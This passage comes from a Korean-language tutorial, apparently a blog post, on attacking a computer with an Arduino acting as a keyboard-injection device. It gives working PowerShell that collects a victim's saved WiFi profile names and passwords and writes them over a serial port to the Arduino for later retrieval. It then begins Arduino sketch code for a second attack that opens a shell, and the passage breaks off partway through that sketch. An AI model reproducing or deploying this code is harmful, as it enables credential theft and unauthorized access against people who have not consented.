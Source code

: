 마지막으로, 프로필 이름과 비밀번호 속성을 포함한 PS 객체를 생성하고 테이블 형식으로 표시하여 $dataCaptured에 작성합니다.

```js
%{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass } | Format-Table –AutoSize | Out-String -OutVariable dataCaptured
```

# EEPROM에 데이터 저장하는 명령

<div class="content-ad"></div>

아두이노에 데이터를 기록하려면 컴퓨터와 아두이노는 직렬 통신을 사용하여 상호 작용해야 합니다. 직렬 통신은 통신 채널 또는 USB를 통해 한 번에 한 비트씩 데이터를 전송하는 프로세스입니다. 각 포트는 COM1, COM2, COM3, COM4 등으로 식별됩니다. 각 COM은 입출력(I/O) 및 인터럽트 요청(IRQ) 주소를 나타냅니다. I/O 주소는 마우스나 키보드와 같은 주변 장치와 데이터를 전송하고 수신합니다. 직렬 통신의 속도 또는 '보드 속도'는 초당 비트로 측정됩니다. 이 데모에서는 9600비트 초당을 사용했습니다.

```bash
# 사용 가능한 COM 포트 검색
$comPort = ((Get-WmiObject -query "SELECT * FROM Win32_PnPEntity" | Where {$_.Name -Match "COM\d+"}).name).Split("COM");
$comPort = [int]$comPort[$comPort.length - 1].replace(")", "");

# COM 포트에 연결하여 데이터 기록 시작
$serialObject = new-Object System.IO.Ports.SerialPort COM$comPort , 9600, None, 8, one;
$serialObject.Open();
$serialObject.Write("$dataCaptured");
```

데이터를 전송한 후, 아두이노를 피해자의 컴퓨터에서 분리하여 내 컴퓨터에 연결합니다. 그런 다음, 캡처된 데이터를 제 노트패드로 전송하는 배송 프로세스를 시작하려면 오른쪽 버튼을 트리거합니다.

![이미지](/assets/img/2024-06-22-HackingacomputerusingArduino_5.png)

<div class="content-ad"></div>

# 공격 2: 쉘 열기

여기서 여러분은 아마 생각하고 있을거에요: 우리 피해자의 WiFi SSID와 비밀번호를 훔치는 것에 그치지 말고 더 많은 정보를 얻을 수는 없을까요? 이 섹션에서는 쉘을 열어보는 방법을 보여드릴게요.

```js
#include <Keyboard.h>
#include <EEPROM.h>

char stringArray[50] = {""};
boolean extracted = false, dispatched = false;
int extractButton = 2, dispatchButton = 3;
void setup() {
    Serial.begin(9600);
    pinMode(extractButton, INPUT);
    pinMode(dispatchButton, INPUT);
    Keyboard.begin();
}
void loop() {
    if(digitalRead(extractButton) == HIGH && !extracted) {
        shell();
        extracted = true;
    }
    if(digitalRead(dispatchButton) == HIGH && !dispatched) {
        ipaddr();
        dispatched = true;
```